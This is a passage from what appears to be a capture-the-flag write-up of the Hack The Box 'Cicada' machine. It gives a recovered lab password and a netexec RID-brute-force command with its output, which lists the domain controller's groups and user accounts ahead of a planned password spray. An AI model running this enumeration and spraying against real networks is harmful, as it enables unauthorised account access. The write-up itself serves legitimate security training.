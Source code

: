 
The Password is `Cicada$M6Corpb*@Lp#nZp!8`




Now we need to enumerate the users using `netexec` to do password spray:
An important resource of using `netexec` is: https://www.netexec.wiki/
```
netexec smb 10.10.11.35 -u 'htyjt' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)                                                                                                                                           
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\htyjt: (Guest)
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)

```

